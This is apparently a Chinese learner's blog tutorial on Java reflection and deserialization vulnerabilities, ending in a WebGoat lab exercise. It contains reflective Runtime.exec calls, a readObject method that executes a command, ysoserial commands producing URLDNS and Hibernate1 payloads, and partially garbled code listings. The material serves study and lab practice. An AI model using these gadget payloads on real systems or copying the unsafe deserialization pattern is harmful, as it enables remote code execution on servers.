0x01 前言
如今CTF比赛中难题或者是压轴题都涉及到Java知识，可见Java安全的火爆程度，如今看了小迪的涉及到Java反序列化1的课程，也想着是时候初步学习一下了。故此文章用来入门Java反序列化1，后续遇到新知识在写吧。
0x02 Java反射
跟着师傅的路线先了解一下Java反射
Java正射
例子，这是一个person类，有成员变量以及函数：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 package 反射;public class Person {private String name;private int age;public String getName () {return name;public void setName (String name) {this .name = name;public int getAge () {return age;public void setAge (int age) {this .age = age;public void show () {"hello" );
我们在编写代码时，当需要使用到某一个类的时候，都会先了解这个类是做什么的。然后实例化这个类，接着用实例化好的对象进行操作，这就是正射。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 package 反射;import 反射.Person;public class 正射 {public static void main (String[] args) {Person person1 = new Person ();"小明" );18 );Class c = person1.getClass();
Java反射机制
Java反射(Reflection)是Java非常重要的动态特性，通过使用反射我们不仅可以获取到任何类的成员方法(Methods)、成员变量(Fields)、构造方法(Constructors)等信息，还可以动态创建Java类实例、调用任意的类方法、修改任意的类成员变量值等。Java反射机制是Java语言的动态性的重要体现，也是Java的各种框架底层实现的灵魂。
Java 反射组成相关的类
反射机制相关操作一般位于java.lang.reflect包中，而java反射机制组成需要重点注意以下的类：
java.lang.Class：类对象;
java.lang.reflect.Constructor：类的构造器对象;
java.lang.reflect.Field：类的属性对象;
java.lang.reflect.Method：类的方法对象;
反射调用方法：
获取类的方法：forName
实例化类对象的方法：newInstance
获取函数的方法：getMethod
执行函数的方法：invoke
获取Class对象
Class 类是描述类的类，作用是运行时提供或获得某个对象的类型信息。
获取类的实例有以下的三种方法：
如果上下⽂中存在某个类的实例 obj，那么我们可以通过 obj.getClass 来获取它的类。
1 2 TestReflection testReflection = new TestReflection ();.getClass ();
如果你已经加载了某个类，只是想获取到它的 java.lang.Class 对象，那么就直接拿它的 class 属性即可。这个⽅法其实不属于反射。
1 Class class2 = TestReflection.class ;
方法三、Class.forName(String className)：动态加载类
如果你知道某个类的名字，想获取到这个类，就可以使⽤ forName 来获取
1 Class class3 = Class.forName ("reflection.TestReflection");
我们可以写个简单的示例代码，分别利用这三种方法获取当前类Class对象的当前类名。
此外还有一种获取类class的方法：classLoader.loadClass("com.anbai.sec.classloader.TestReflection");
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package 反射;import 反射.Person;public class Reflect {public static void main (String[] args) throws Exception{Class c1 = Person.class;Person person = new Person ();Class c2 = person.getClass();Class c3 = Class.forName("反射.Person" );
我们一般使用第三种通过Class.forName方法去动态加载类。且使用forName就不需要import导入其他类，可以加载我们任意的类。
而使用类.class属性，需要导入类的包，依赖性太强，在大型项目中容易抛出编译错误；
而使用实例化对象的getClass()方法，需要本身创建一个对象，本身就没有了使用反射机制意义。
所以我们在获取class对象中，一般使用Class.forName方法去获取。
反射常用函数
getMethod()方法获取的是当前类中所有公共(public)方法。包括从父类里继承来的方法。
getDeclaredMethod()系列方法获取的是当前类中“声明”的方法，包括private，protected 和public，不包含从父类继承来的方法。
getConstructor()方法获取的是当前类声明为公共(public)构造函数实例。
getDeclaredConstructor()方法获取的是当前类声明的构造函数实例，包括private， protected和public。
setAccessible()在获取到私有方法或构造方法后，使用 setAccessible(true)，改变其作用域，这样即使是私有的属性，方法，构造函数也都可以访问调用了
newInstance()将获取到的对象实例化。调用的是这个类的无参构造函数。使用 newInstance 不成功的话可能是因为：①、你使用的类没有无参构造函数，②、你使用的类构造函数是私有的。
invoke()调用包装在当前Method对象中的方法。
通过反射创建类对象
通过反射创建类对象主要有两种方式：通过 Class 对象的 newInstance() 方法、通过 Constructor 对象的 newInstance() 方法。
第一种：通过 Class 对象的 newInstance() 方法。
1 2 Class clz = Apple.class;Apple apple = (Apple)clz.newInstance();
第二种：通过 Constructor 对象的 newInstance() 方法
1 2 3 Class clz = Apple.class;Constructor constructor = clz.getConstructor();Apple apple = (Apple)constructor.newInstance();
通过 Constructor 对象创建类对象可以选择特定构造方法，而通过 Class 对象则只能使用默认的无参数构造方法。下面的代码就调用了一个有参数的构造方法进行了类对象的初始化。
1 2 3 Class clz = Apple.class;Constructor constructor = clz.getConstructor(String.class, int .class);Apple apple = (Apple)constructor.newInstance("红富士" , 15 );
newInstance()
该方法属于 Class 类，执行后返回一个 Object，可以利用这个方法来实例化对应的类，作用就是调用这个类的无参构造函数。但要求要实例化的类必须要有无参构造函数，并且这个构造函数不是私有的。
Runtime类的分析
进入 Runtime 类中可以看到
这里可以看到Runtime类为单例模式，这意味着我们只能通过getRuntime方法来获取Runtime对象。同时注意 getRuntime 对象是静态方法，即可以直接通过 类名.方法名 的方法调用。
java执行命令
1 2 Runtime run = Runtime.getRuntime();"calc" );
getMethod()
该方法可获取一个 Method 对象，即获取类中的方法，通常要和 invoke() 方法一起使用，这里重点关注下它的各项参数
第一个参数name是所要获取方法的方法名，第二个参数parameterTypes是所获得的方法中参数的类型，parameterTypes 是个 Class 类型的数组，用的是java的可变长参数 的写法，<?> 是泛型的表示，这里不探讨。
即参数类型 Class<?>... parameterTypes 其实等价于 Class<?>[] parameterTypes 。传递的对应参数是所获取方法的对应的参数类型。比如 Runtime 中的 exec(String command) 函数，获取它就是
1 2 Class clazz = Class.forName("java.lang.Runtime" );Method cmd = clazz.getMethod("exec" , String.class);
Invoke()
invoke() 方法用于执行 getMethod 获取的方法，看看它的相关参数
第一个参数是函数所在的类对象，第二个是所执行的函数的对象参数：依旧拿 exec(String command) 方法来说
1 2 3 4 Runtime run = Runtime.getRuntime();Class clazz = Class.forName("java.lang.Runtime" );Method cmd = clazz.getMethod("exec" , String.class);"calc" );
如果执行的方法是静态方法，那么 invoke 的第一个 obj 参数将被忽略
比如我们要执行上面所说的 Runtime 类中的静态方法 getRuntime() 去获取对象
1 2 3 4 Class clazz = Class.forName("java.lang.Runtime" );Runtime run = (Runtime) clazz.getMethod("getRuntime" ).invoke(null );"calc" );
等价于 Runtime.getRuntime().exec("calc");
反射java.lang.Runtime
java.lang.Runtime因为有一个exec方法可以执行本地命令，所以在很多的payload中我们都能看到反射调用Runtime类来执行本地系统命令，通过学习如何反射Runtime类也能让我们理解反射的一些基础用法。
不使用反射执行本地命令代码片段：
1 2 "whoami" ).getInputStream(), "UTF-8" ));
如上可以看到，我们可以使用一行代码完成本地命令执行操作，但是如果使用反射就会比较麻烦了，我们不得不需要间接性的调用Runtime的exec方法。
反射Runtime执行本地命令代码片段：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 Class runtimeClass1 = Class.forName("java.lang.Runtime" );Constructor constructor = runtimeClass1.getDeclaredConstructor();true );Object runtimeInstance = constructor.newInstance();Method runtimeMethod = runtimeClass1.getMethod("exec" , String.class);Process process = (Process) runtimeMethod.invoke(runtimeInstance, cmd);InputStream in = process.getInputStream();"UTF-8" ));
反射调用Runtime实现本地命令执行的流程如下：
反射获取Runtime类对象(Class.forName("java.lang.Runtime"))。
使用Runtime类的Class对象获取Runtime类的无参数构造方法(getDeclaredConstructor())，因为Runtime的构造方法是private的我们无法直接调用，所以我们需要通过反射去修改方法的访问权限(constructor.setAccessible(true))。
获取Runtime类的exec(String)方法(runtimeClass1.getMethod("exec", String.class);)。
调用exec(String)方法(runtimeMethod.invoke(runtimeInstance, cmd))。
上面的代码每一步都写了非常清晰的注释，接下来我们将进一步深入的了解下每一步具体含义。
Java反射到命令执行
学习ava反射机制，其实我们更关心如何利用Java反射实现命令执行。下面是Java反射命令执行的几种情况
Demo 1
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 package 反射;public class TrainPrint {"Empty block initial %s\n" , this .getClass());static {"Static initial %s\n" , TrainPrint.class);try {Runtime rt = Runtime.getRuntime();"calc" };Process pc = rt.exec(commands);catch (Exception e) {public TrainPrint () {"Initial %s\n" , this .getClass());
1 2 3 4 5 6 7 8 9 10 11 12 package 反射;import 反射.TrainPrint;public class exp {public static void main (String[] args) throws Exception {"反射.TrainPrint" );public static void ref (String name) throws Exception {
可以看到在TrainPrint类中，定义了一个实例化函数块、静态初始化块以及构造函数；在exp类中，则是定义了一个main函数来调用ref函数。
在ref函数中，对传入的name参数，会用forName函数去加载并初始化name对应的类，而在这里也就是“反射.TrainPrint”类，而加载该类之后，回去调用类中对应的静态初始化块函数，也就是上述执行exec(“calc”)代码，最终弹出计算器。
而这里呢，如果我们对name可控，那就可以构造恶意类进行攻击了
Demo 2
下面是两种通过反射java.lang.Runtime来达到命令执行的方式。
由于java.lang.Runtime类的构造函数是私有的，因此不能直接使用 newInstance() 创建一个实例。那为什么这个类的构造函数会是私有的呢？
这涉及到一个“单例模式”的概念：
单例模式（Singleton）的目的是为了保证在一个进程中，某个类有且仅有一个实例。因为这个类只有一个实例，因此，自然不能让调用方使用new Xyz()来创建实例了。所以，单例的构造方法必须是private，这样就防止了调用方自己创建实例，但是在类的内部，是可以用一个静态字段来引用唯一创建的实例的。举个例子：我们在链接数据库时只有最开始链接一次，而不是用一次链接一次，如果这样的话，资源消耗太大了。因此可以将类的构造函数设为私有，再通过静态方法来获取。
由于java.lang.Runtime使用了单例模式，我们可以通过Runtime.getRuntime()来获取Runtime对象。
有两种方法进行反射命令执行：
getMethod
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package RCE;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class Reflect {public static void main (String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException {"java.lang.Runtime" );Method execMethod = clazz.getMethod("exec" , String.class);Method getRuntimeMethod = clazz.getMethod("getRuntime" );Object runtime = getRuntimeMethod.invoke(clazz);"calc.exe" );
这里由于我们无法直接实例化Runtime类，因此只能靠Java反射机制：
首先定义了一个Class对象clazz，然后通过forName方法，获取到了Runtime类的Class对象（也就是能得到Runtime类中的数据及方法）。随后利用getMethod方法调用了clazz（即Runtime类）中的exec方法，为后续命令执行做准备。
然后又通过getMethod获取到Runtime类中的getRuntime方法，接着通过invoke进行调用该方法执行：Runtime.getRuntime成功获取到Runtime类的对象，并赋值给runtime实例。
最终用invoke方法调用了runtime实例的exec方法，并传入相应参数，成功弹出计算器。
getDeclaredConstructor
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 package RCE;import java.io.InputStream;import java.lang.reflect.Constructor;import java.lang.reflect.InvocationTargetException;import java.lang.reflect.Method;public class Reflect {public static void main (String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, IllegalAccessException, InstantiationException {Class runtimeClass1 = Class.forName("java.lang.Runtime" );Constructor constructor = runtimeClass1.getDeclaredConstructor();true );Object runtime = constructor.newInstance();Method runtimeMethod = runtimeClass1.getMethod("exec" , String.class);"calc" );
首先通过forName获取Runtime的Class类对象
1 Class对象提供了关于类或接口的结构和行为的信息，包括类的名称、父类、实现的接口、字段、方法等。
需要注意，这里的class对象并不能直接调用某种方法，还需要利用反射机制才可
之后利用getDeclaredConstructor函数获取到了Runtime类中的私有构造函数，接着设置setAccessible(true)使得我们可以调用其私有构造函数。
接着利用constructor的newInstance就可以实例化一个Runtime类对象了，之后通过Class对象调用getMethod方法获取到Runtime类的exec方法。
最后利用invoke执行，弹出计算器。
注意：这里我用的是jdk1.8，如果是jdk9以上，对于这种反射机制会爆出如下错误：
1 Unable to make private java.lang .Runtime () accessible: module java.base does not "opens java.lang" to unnamed module...
解决办法可参考：[Getting java.lang.reflect.InaccessibleObjectException when migrated to Java 17 ](https://community.temporal.io/t/getting-java-lang-reflect-inaccessibleobjectexception-when-migrated-to-java-17/6168 )
但这里我就换了个低版本，懒得解决了
getConstructor和getDeclaredConstructor
这两个方法均用于获取类的构造方法，后者可以获取私有的构造方法
前面利用 Class 中的 newInstance 方法获取一个类对象只能是对应无参的构造函数来实例化类，而利用这两个函数可以调用类的有参构造函数来实例化一个对象。
这里以 getConstructor 为例，getDeclaredConstructor 用法相同只是后续要加个 setAccessible(true)
该方法的参数是获取到的构造方法中对应参数的数据类型，该方法返回的 Constructor 对象中有个 newInstance 方法，看看这个 newInstance 方法的参数
newInstance 方法的参数是调用的构造方法对应的参数。比如我们利用 ProcessBuilder 类来执行命令
1 new ProcessBuilder ("calc" ).start();
注意这里用到的 ProcessBuilder 重载的构造方法
1 String... command` 等价于 `String[] command
使用反射构造
1 2 Class clazz = Class.forName("java.lang.ProcessBuilder" );new String [][] {{"calc" }})).start();
简单解释下这两个参数 String[].class 是 ProcessBuilder 类构造函数的参数类型，newInstance 参数也是可变长参数，等价于 Object[] initargs ，即套两层数组 new String[][] {{"calc"}}
上述用到了强制类型转换，将上述payload改改，用完全反射的方法
1 2 3 Class clazz = Class.forName("java.lang.ProcessBuilder" );Constructor m = clazz.getConstructor(String[].class);"start" ).invoke(m.newInstance(new String [][] {{"calc" }}));
写成一行
1 Class.forName("java.lang.ProcessBuilder" ).getMethod("start" ).invoke(Class.forName("java.lang.ProcessBuilder" ).getConstructor(String[].class).newInstance(new String [][] {{"calc" }}));
runtimeClass1.getDeclaredConstructor和runtimeClass1.getConstructor都可以获取到类构造方法，区别在于后者无法获取到私有方法，所以一般在获取某个类的构造方法时候我们会使用前者去获取构造方法。如果构造方法有一个或多个参数的情况下我们应该在获取构造方法时候传入对应的参数类型数组，如：clazz.getDeclaredConstructor(String.class, String.class)。
如果我们想获取类的所有构造方法可以使用：clazz.getDeclaredConstructors来获取一个Constructor数组。
获取到Constructor以后我们可以通过constructor.newInstance()来创建类实例,同理如果有参数的情况下我们应该传入对应的参数值，如:constructor.newInstance("admin", "123456")。当我们没有访问构造方法权限时我们应该调用constructor.setAccessible(true)修改访问权限就可以成功的创建出类实例了。
反射调用类方法
Class对象提供了一个获取某个类的所有的成员方法的方法，也可以通过方法名和方法参数类型来获取指定成员方法。
获取当前类所有的成员方法：
1 Method[] methods = clazz.getDeclaredMethods()
获取当前类指定的成员方法：
1 2 Method method = clazz.getDeclaredMethod("方法名" );Method method = clazz.getDeclaredMethod("方法名" , 参数类型如String.class，多个参数用"," 号隔开);
getMethod和getDeclaredMethod都能够获取到类成员方法，区别在于getMethod只能获取到当前类和父类的所有有权限的方法(如：public)，而getDeclaredMethod能获取到当前类的所有成员方法(不包含父类)。
反射调用方法
获取到java.lang.reflect.Method对象以后我们可以通过Method的invoke方法来调用类方法。
调用类方法代码片段：
1 method.invoke(方法实例对象, 方法参数值，多个参数值用"," 隔开);
method.invoke的第一个参数必须是类实例对象，如果调用的是static方法那么第一个参数值可以传null，因为在java中调用静态方法是不需要有类实例的，因为可以直接类名.方法名(参数)的方式调用。
method.invoke的第二个参数不是必须的，如果当前调用的方法没有参数，那么第二个参数可以不传，如果有参数那么就必须严格的依次传入对应的参数类型。
反射调用成员变量
Java反射不但可以获取类所有的成员变量名称，还可以无视权限修饰符实现修改对应的值。
获取当前类的所有成员变量：
1 Field fields = clazz.getDeclaredFields();
获取当前类指定的成员变量：
1 Field field = clazz.getDeclaredField("变量名" );
getField和getDeclaredField的区别同getMethod和getDeclaredMethod。
获取成员变量值：
1 Object obj = field.get(类实例对象);
修改成员变量值：
1 field.set(类实例对象, 修改后的值);
同理，当我们没有修改的成员变量权限时可以使用: field.setAccessible(true)的方式修改为访问成员变量访问权限。
如果我们需要修改被final关键字修饰的成员变量，那么我们需要先修改方法
1 2 3 4 5 6 7 8 9 10 11 Field modifiers = field.getClass().getDeclaredField("modifiers" );true );
0x02 什么是Java序列化与反序列化
在编程语言的世界当中,常常有这样的需求,我们需要将本地已经实例化 的某个对象 ,通过网络 传递到其他机器当中.为了满足这种需求,就有了所谓的序列化和反序列化
1 2 3 Java:1 . 序列化：将Java对象压缩成字节序列或字节流的形式2 . 反序列化：将字节序列或字节流转化成Java对象

对象的序列化主要有两种用途：
把对象的字节序列永久地保存到硬盘上，通常存放在一个文件中；（持久化对象）
在网络上传送对象的字节序列。（网络传输对象）
0x03 漏洞成因
只要服务端反序列化数据，客户端传递类的readObject中代码会自动执行，给予攻击者在服务器上运行代码的能力。
3.1 可能的形式
入口类的readObject直接调用危险方法
入口类参数中包含可控类，该类有危险方法，readObject时调用
入口类参数中包含可控类，该类又调用其他有危险方法的类，readObject时调用
比如类型定义为Object，调用equals/hashcode/toString相同类型 同名函数
构造函数/静态代码块等类加载时隐式执行
3.2 JAVA原生反序列化漏洞成因
Java中间件通常通过网络接收客户端发送的序列化数据，而在服务端对序列化数据进行反序列化时，会调用被序列化对象的readObject()方法。
而在Java中如果重写了某个类的方法，就会优先调用经过修改后的方法。
如果某个对象重写了readObject()方法，且在方法中能够执行任意代码，那服务端在进行反序列化时，也会执行相应代码
简单来说：攻击者通过构造恶意输入，让反序列化产生非预期的对象，在此过程中执行构造的恶意代码。
0x04 Java反序列化基础
不同于PHP序列化是将对象转换成了字符串，Java序列化是将对象转换为了字节流，且序列化与反序列化是一种思想，并不局限于其实现形式。如：
JAVA内置的writeObject()/readObject()
JAVA内置的XMLDecoder()/XMLEncoder
XStreamSnakeYamlFastJsonJackson
出现过漏洞的组件：
Apache Shiro
Apache Axis
Weblogic
Jboss
Fastjson
看一下Java中执行系统命令的方法：
1 2 3 4 5 public class Main {public static void main (String[] args) throws Exception{"calc.exe" );
1 2 3 4 5 6 Java中执行系统命令使用java.lang .Runtime 类的exec方法：getRuntime ()是Runtime类中的静态方法,使用此方法获取当前java程序的Runtime (即运行时:计算机程序运行需要的代码库,框架,平台等)start ()方法使用这些属性创建一个新的Process实例。 start ()方法可以从同一实例重复调用，以创建具有相同或相关属性的新子进程。
注意:这里的命令执行,并不是使用系统中的bash或是cmd进行的系统命令执行，而是使用JAVA本身，所以反弹shell的重定向符在JAVA中并不支持
我们来细分一下上述执行命令的步骤：
1 2 3 4 5 6 public class Main {public static void main (String[] args) throws Exception{Runtime runtime = Runtime.getruntime();"calc.exe" );
那么相应的反射的代码如下
1 2 3 4 5 6 7 8 9 import java.lang.reflect.Method;public class ExecTest {public static void main (String[] args) throws Exception{Object runtime = Class.forName("java.lang.Runtime" ).getMethod("getRuntime" , new Class []{}).invoke(null );"java.lang.Runtime" ).getMethod("exec" ,String.class).invoke(runtime,"calc.exe" );
getMethod(方法名, 方法类型)invoke(某个对象实例， 传入参数)
这里第一句Object runtime = Class.forName("java.lang.Runtime")的作用等价于 Object runtime = Runtime.getRuntime()
目的是获取一个对象实例好被下一个invoke调用
第二句Class.forName("java.lang.Runtime").xxxx的作用就是调用上一步生成的runtime实例的exec方法，并将"calc.exe"参数传入exec()方法
接下来编写Java反序列化过程：
在Java当中，如果一个类需要被序列化和反序列化 ，需要实现java.io.Serializable接口
ObjectOutputStream类的writeObject(Object obj)方法，将对象序列化成字符串数据
ObjectInputStream类的readObject(Object obj)方法，将字符串数据反序列化成对象
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 import java.io.*;public class Serialize {public static void main (String[] args) throws Exception{String name = "hybcx" ;FileOutputStream fileOutputStream = new FileOutputStream ("serialize1.txt" );ObjectOutputStream objectOutputStream = new ObjectOutputStream (fileOutputStream);FileInputStream fileInputStream = new FileInputStream ("serialize1.txt" );ObjectInputStream objectInputStream = new ObjectInputStream (fileInputStream);Object result = objectInputStream.readObject();
我们用010编辑器打开上述生成的文件看看

可见上述十六进制是以aced开头的，这里说一下Java序列化特性：
1 2 一段数据以 rO0AB 开头，你基本可以确定这串就是 JAVA 序列化 base64 加密的数据。
且0005 为 Java 对象序列化的版本号
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import java.io.FileInputStream;import java.io.FileOutputStream;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;public class Serialize2 {public static void main (String[] args) throws Exception{Object runtime = Class.forName("java.lang.Runtime" ).getMethod("getRuntime" , new Class []{}).invoke(null );Object evil = Class.forName("java.lang.Runtime" ).getMethod("exec" , String.class).invoke(runtime, "calc.exe" );FileOutputStream fileOutputStream = new FileOutputStream ("serialize2.txt" );ObjectOutputStream objectOutputStream = new ObjectOutputStream (fileOutputStream);FileInputStream fileInputStream = new FileInputStream ("serialize2.txt" );ObjectInputStream objectInputStream = new ObjectInputStream (fileInputStream);Object result = objectInputStream.readObject();
这里如果我们直接运行会发现报错，但计算器是成功弹出的，这是因为上述Runtime类没有继承Serializable接口，所以导致不会成功，它弹是在写Object的时候弹出来的

我们如果跟进java.io.Serializable接口会发现如下图，是一个空类，有位师傅这样解释：这说明起作用只是为了在反序列化和序列化中，做一个类型判断。为什么呢？因为遵循非必要原则，不需要反序列化的类就可以不用反序列化了。

4.1 如何序列化类
Java原生实现了一套序列化的机制，它让我们不需要额外编写代码，只需要实现java.io.Serializable接口，并调用ObjectOutputStream类的writeObject方法即可
Person类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 package serializable;import java.io.IOException;import java.io.ObjectInputStream;import java.io.Serializable;public class Person implements Serializable {private static final long serialVersionUID = 1L ;public String name;private int age;public Person () {public Person (String name, int age) {this .name = name;this .age = age;@Override public String toString () {return "Person{" + "name='" + name + '\'' + ",age=" + age + '}' ;private void readObject (ObjectInputStream objectInputStream) throws IOException, ClassNotFoundException {"calc.exe" );
Serializable类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 package serializable;import java.io.FileOutputStream;import java.io.IOException;import java.io.ObjectOutputStream;public class Serializable {public static void serializable (Object person) throws IOException {ObjectOutputStream obj = new ObjectOutputStream (new FileOutputStream ("ser.ser" ));public static void main (String[] args) throws Exception{Person person = new Person ("hybcx" , 18 );
跟进writeObject函数，阅读其注释可知：
在反序列化的过程当中，是针对对象本身，而非针对类的，因为静态属性是不参与序列化和反序列化的过程的。另外，如果属性本身声明了transient关键字，也会被忽略。但是如果某对象继承了A类，那么A类当中的对象的对象属性也是会被序列化和反序列化的(前提是A类也实现了java.io.Serializable接口)

4.2 如何反序列化类
序列化使用ObjectOutPutStream类，反序列化使用的则是ObjectInputStream类的readObject方法。我们在之前重写了readObject方法，所以会执行命令
Unserializable类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 package serializable;import java.io.FileInputStream;import java.io.IOException;import java.io.ObjectInputStream;public class Unserializable {public static Object unserialize (String Filename) throws IOException, ClassNotFoundException {ObjectInputStream ins = new ObjectInputStream ((new FileInputStream (Filename)));Object obj = ins.readObject();return obj;public static void main (String[] args) throws Exception {Person person = (Person) unserialize("ser.ser" );
其实反序列化的实现就是序列化的逆过程,会根据序列化读出数据的类型,进行相应的处理
4.3 serialVersionUID
序列化和反序列化可以理解为压缩和解压缩，但是压缩之所以能被解压缩的前提是因为他俩的协议是一样的。如果压缩是以四个字节为一个单位，而解压缩以八个字节为一个单位，就会乱套
同样在Java中与协议相对的概念为：serialVersionUID
当serialVersionUID不一致时，反序列化会直接抛出异常
比如设置为1L时序列化，修改为2L时反序列化，则会抛出异常

如上图，这里我们修改为2L，如下图发生报错，

我们跟进上图报错第二行的596那一行，发现下图情况：代码进行了判断suid != osc.getSerialVersionUID()如果两次UID不相同，则抛出异常
serializable.Person; local class incompatible: stream classdesc serialVersionUID = 1, local class serialVersionUID = 2

0x08 Java反序列化1实践
学了上述那么多前置知识，但我发现那些文章还有大把没讲完。。。。太多了需要慢慢啃，这里我就先复现一下看小迪课程的一些例子吧
8.1 序列化和反序列化过程
首先他这里给了一个简单序列化和反序列化代码
Main类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 package SerialTest;import java.io.Serializable;public class Main {public static void main (String[] args) {class Person implements Serializable {private String name;private int age;private String sex;transient private int stuId;private static int count = 100 ;public Person (String name, int age, String sex, int stuId) {this .name = name;this .age = age;this .sex = sex;this .stuId = stuId;@Override public String toString () {return String.format("Person{name: %s, age: %d, sex: %s, stuId: %d, count: %d}\n" ,
SerializableTest类实现：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 package SerialTest;import java.io.*;public class SerializableTest {public static void main (String[] args) throws Exception {Person person = deserialPerson();private static void serialPerson () throws IOException {Person person = new Person ("xiaodi" , 28 , "男" , 101 );ObjectOutputStream oos = new ObjectOutputStream (new FileOutputStream (new File ("person.txt" ))"person 对象序列化成功！" );private static Person deserialPerson () throws Exception {ObjectInputStream ois = new ObjectInputStream (new FileInputStream (new File ("hacker.txt" ))Person person = (Person)ois.readObject();"person 对象反序列化成功！" );return person;
我们运行之后如下图


同样的aced 0005开头
8.2 ysoserial工具使用
看了有几篇文章利用该工具的jar包进行一些常见Java反序列化1漏洞的链子分析…但对于看Java代码有些许困难的我，还是先学会如何在实战中使用吧
项目地址：https://github.com/frohoff/ysoserial --唉，要是这个项目持续更新就好了
这里的练习就用Java漏洞靶场webgoat来玩玩，不过tm搭建了半天，这新版本不会启动。。。。还是建议用8.2.2的版本吧
webgoat-Insecure Deserialization

找到相应关卡这里让我们更改序列化数据，让页面响应延迟5秒即可成功，那我们先可以验证一下这里是否存在反序列化注入点。
在此之前我们观察到上述序列化对象时r00ab开头，这说明是Java序列化数据经过base加密的结果，这里我们可以看一下源码进行验证

我们在上述输入1提交，抓一下包看一下Java对应的实现接口，如上图，我们可以发现接口地址为InsecureDeserialization/task，我们到其Java项目中找一下

如上图，我们可以看到该类在处理传入的token参数时，进行了base64的解密，这意味着我们如果构造了Java序列化恶意数据之后还需要进行base64的加密
这里我们用一下ysoserial工具，在这里作用大概就是可以凭借右侧依赖（对应的Java反序列化1漏洞点）直接根据用户输入的恶意数据生成依赖所对应的Java反序列化1漏洞的序列化数据。

这里我们用到的是上述命令URLDNS，我们利用dnslog平台回显来判断是否存在反序列化漏洞
1 java -jar ysoserial-all.jar URLDNS "http://wqqly89hgl2qwlw44cadp2xdo4uvin6c.oastify.com" > urldns.txt

执行完后我们打开发现是aced开头，base64编码一下
1 2 3 4 5 6 7 import base64open ("urldns.txt" ,"rb" )print (ba)
这里不知为何那些dnslog平台都崩了打不开，因此用了bp自带的进行了验证

点击上述copy复制后输入相关命令，最后将得到的文件数据进行一次base644加密输出

将得到的数据输入至下列输入框中，最后看到上图的bp中显示了最近一次的访问，验证成功

接下来利用执行系统命令来验证一次
1 java -Dhibernate5 -cp hibernate-core-5.4 .28 .Final.jar;ysoserial-0.0 .6 -SNAPSHOT-all.jar ysoserial.GeneratePayload Hibernate1 "calc.exe" > 1. bin
这里的hibernate-core-5.4.9.Final.jar我们可以看一下这里

如上图可以看到这里是支持Hibernate的，因此我们需要在webgoat的jar包中找到相关的

如上图我们找到了hibernate-core-5.4.28.Final.jar一般都是找core这个包的，这是插件的核心

如图执行成功后我们打开x.bin看一下，如下图可以看到是以aced开头的，接下来用个Python脚本编码一下

这里编译好直接输入至输入框中即可，但这里不知道为何我弹不出计算器

这里先尝试延迟5秒吧，这里由于是windows环境，就是ping来实现
InsecureDeserializationTask.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 package org.owasp.webgoat.deserialization;import org.dummy.insecure.framework.VulnerableTaskHolder;import org.owasp.webgoat.assignments.AssignmentEndpoint;import org.owasp.webgoat.assignments.AssignmentHints;import org.owasp.webgoat.assignments.AttackResult;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestParam;import org.springframework.web.bind.annotation.ResponseBody;import org.springframework.web.bind.annotation.RestController;import java.io.ByteArrayInputStream;import java.io.IOException;import java.io.InvalidClassException;import java.io.ObjectInputStream;import java.util.Base64;@RestController @AssignmentHints({"insecure-deserialization.hints.1", "insecure-deserialization.hints.2", "insecure-deserialization.hints.3"}) public class InsecureDeserializationTask extends AssignmentEndpoint {@PostMapping("/InsecureDeserialization/task") @ResponseBody public AttackResult completed (@RequestParam String token) throws IOException {long before;long after;int delay;'-' , '+' ).replace('_' , '/' );try (ObjectInputStream ois = new ObjectInputStream (new ByteArrayInputStream (Base64.getDecoder().decode(b64token)))) {Object o = ois.readObject();if (!(o instanceof VulnerableTaskHolder)) {if (o instanceof String) {return failed(this ).feedback("insecure-deserialization.stringobject" ).build();return failed(this ).feedback("insecure-deserialization.wrongobject" ).build();catch (InvalidClassException e) {return failed(this ).feedback("insecure-deserialization.invalidversion" ).build();catch (IllegalArgumentException e) {return failed(this ).feedback("insecure-deserialization.expired" ).build();catch (Exception e) {return failed(this ).feedback("insecure-deserialization.invalidversion" ).build();int ) (after - before);if (delay > 7000 ) {return failed(this ).build();if (delay < 3000 ) {return failed(this ).build();return success(this ).build();
这里可以看到，程序对post传入的token进行了base64的解码，并用replace做了一定过滤，接着Object o = ois.readObject();送入readobject进行反序列化。如果反序列化的对象o不是VulnerableTaskHolder类的话就会抛出错误，接着最后判断delay的大小，我们需要控制在7-3秒内
我们转到VulnerableTaskHolder类的实现，如下列代码，
